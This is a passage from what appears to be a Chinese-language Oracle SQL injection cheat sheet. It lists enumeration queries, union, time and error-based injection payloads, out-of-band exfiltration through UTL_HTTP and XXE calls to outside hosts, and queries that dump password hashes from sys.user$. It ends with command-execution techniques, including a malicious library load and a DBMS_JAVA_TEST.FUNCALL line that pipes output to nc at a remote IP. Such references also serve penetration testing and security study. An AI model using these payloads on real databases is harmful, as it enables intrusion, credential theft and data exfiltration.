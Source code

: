         - IP反解
    - `dba_tables`
        - 系統所有表資訊，需要 dba 權限
    - `user_tables`
        - 當前使用者名下表的資訊
- 庫名(schema)
    - `SELECT DISTINCT OWNER FROM ALL_TABLES`
- 表名
    - `SELECT OWNER, TABLE_NAME FROM ALL_TABLES`
- Column
    - `SELECT OWNER, TABLE_NAME, COLUMN_NAME FROM ALL_TAB_COLUMNS`
- Union Based
    - Column 型態必須相同
    - 可用 `NULL` 來避免錯誤
    - `UNION SELECT 1, 'aa', null FROM dual`
- Time Based
    - `dbms_pipe.receive_message(('a'),10)`
        - `SELECT CASE WHEN (CONDITION_HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`
- Error Based
    - `CTXSYS.DRITHSX.SN`
        - `SELECT * FROM news WHERE id=1 and CTXSYS.DRITHSX.SN(user, (SELECT banner FROM v$version WHERE rownum=1))=1`
    - `utl_inaddr.get_host_name`
        - `and 1=utl_inaddr.get_host_name((SQL in HERE))`
        - 版本 >=11g，需要超級用戶或授予網路權限的用戶才能用
    - `dbms_xdb_version.checkin`
        - `and (select dbms_xdb_version.checkin((select user from dual)) from dual) is not null`
    - `dbms_xdb_version.makeversioned`
        - `and (select dbms_xdb_version.makeversioned((select user from dual)) from dual) is not null`
    - `dbms_xdb_version.uncheckout`
        - `and (select dbms_xdb_version.uncheckout((select user from dual)) from dual) is not null`
    - `dbms_utility.sqlid_to_sqlhash`
        - `and (SELECT dbms_utility.sqlid_to_sqlhash((select user from dual)) from dual) is not null`
- Out of band
    - `UTL_HTTP.request('http://kaibro.tw/'||(select user from dual))=1`
    - `SYS.DBMS_LDAP.INIT()`
    - `utl_inaddr.get_host_address()`
    - `HTTPURITYPE`
        - `SELECT HTTPURITYPE('http://30cm.club/index.php').GETCLOB() FROM DUAL;`
    - `extractvalue()` XXE
        - `SELECT extractvalue(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT xxxx)||'.oob.kaibro.tw/"> %remote;]>'),'/l') FROM dual`
        - 新版已 patch
- users
    - `select username from all_users`
        - lists all users of the database
    - `select name, password from sys.user$`
    - `select username,password,account_status from dba_users`
- Java source
    - 可以創建 Java 源碼並存成 Oracle 物件
    - `CREATE JAVA SOURCE NAMED "xxxx" AS <Java Code>`
- Code execution
    - load lib
        - `create or replace library lib_evil as '/home/oracle/evil.so';`
        - `create or replace function cmd(str varchar2) return varchar2 as language c library lib_evil name "cmd";`
        - `select cmd('whoami') from dual;`
    - `dbms_java.runjava`
        - `dbms_java.runjava('com/sun/tools/script/shell/Main -e "var p = java.lang.Runtime.getRuntime().exec(''$cmd'');"')`
    - `DBMS_JAVA_TEST.FUNCALL`
        - `SELECT DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','/usr/bin/bash','-c','/bin/ls|/usr/bin/nc 1.2.3.4 1234') FROM DUAL;`